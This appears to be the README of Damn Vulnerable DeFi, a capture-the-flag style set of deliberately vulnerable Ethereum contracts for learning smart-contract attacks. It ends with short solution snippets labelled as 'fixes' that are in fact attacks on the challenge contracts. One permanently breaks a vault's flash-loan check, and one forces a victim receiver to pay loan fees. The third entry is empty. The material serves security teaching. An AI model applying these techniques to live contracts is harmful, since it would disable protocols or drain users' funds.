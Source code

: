 ![](cover.png)

**A set of challenges to learn offensive security of smart contracts in Ethereum.**

Featuring flash loans, price oracles, governance, NFTs, lending pools, smart contract wallets, timelocks, and more!

## Play

Visit [damnvulnerabledefi.xyz](https://damnvulnerabledefi.xyz)

## Help

For Q&A and troubleshooting running Damn Vulnerable DeFi, go [here](https://github.com/tinchoabbate/damn-vulnerable-defi/discussions/categories/support-q-a-troubleshooting).

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION.

Fix #1:        
````
// lets transfer some amount directly to vault and make the if logic fail forever
await token.connect(player).transfer(vault.address, 10);
````

#Fix #2:

````
await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x");
````

#Fix #3:

